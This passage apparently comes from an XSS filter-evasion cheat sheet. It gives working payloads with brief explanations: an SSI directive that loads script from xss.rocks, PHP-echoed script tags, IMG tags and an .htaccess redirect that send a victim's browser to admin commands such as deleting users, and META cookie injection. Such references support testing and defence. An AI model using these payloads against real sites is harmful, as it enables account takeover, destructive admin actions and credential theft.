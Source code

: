 `<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

## PHP

Requires PHP to be installed on the server to use this XSS vector.
Again, if you can run any scripts remotely like this, there are probably
much more dire issues:

`<? echo('<SCR)';`  
`echo('IPT>alert("XSS")</SCRIPT>'); ?>`

## IMG Embedded commands

This works when the webpage where this is injected (like a web-board) is
behind password protection and that password protection works with other
commands on the same domain. This can be used to delete users, add users
(if the user who visits the page is an administrator), send credentials
elsewhere, etc.... This is one of the lesser used but more useful XSS
vectors:

`<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

### IMG Embedded commands part II

This is more scary because there are absolutely no identifiers that make
it look suspicious other than it is not hosted on your own domain. The
vector uses a 302 or 304 (others work too) to redirect the image back to
a command. So a normal \<IMG SRC="httx://badguy.com/a.jpg"\> could
actually be an attack vector to run commands as the user who views the
image link. Here is the .htaccess (under Apache) line to accomplish the
vector (thanks to Timo for part of this):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

## Cookie manipulation

Admittedly this is pretty obscure but I have seen a few examples where
\<META is allowed and you can use it to overwrite cookies. There are
other examples of sites where instead of fetching the username from a
database it is stored inside of a cookie to be displayed only to the
user who visits the page. With these two scenarios combined you can
modify the victim's cookie which will be displayed back to them as
JavaScript (you can also use this to log people out or change their user
states, get them to log in as you, etc...):

`<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`

## UTF-7 encoding

If the page that the XSS resides on doesn't provide a page charset
header, or any browser that is set to UTF-7 encoding can be exploited
with the following (Thanks to Roman Ivanov for this one). Click here for
an example (you don't need the charset statement if the user's browser
is set to auto-detect and there is no overriding content-types on the
page in Internet Explorer and Netscape 8.1 in IE rendering engine mode).
This does not work in any modern browser without changing the encoding
type which is why it is marked as completely unsupported. Watchfire
found this hole in Google's custom 404 script.:
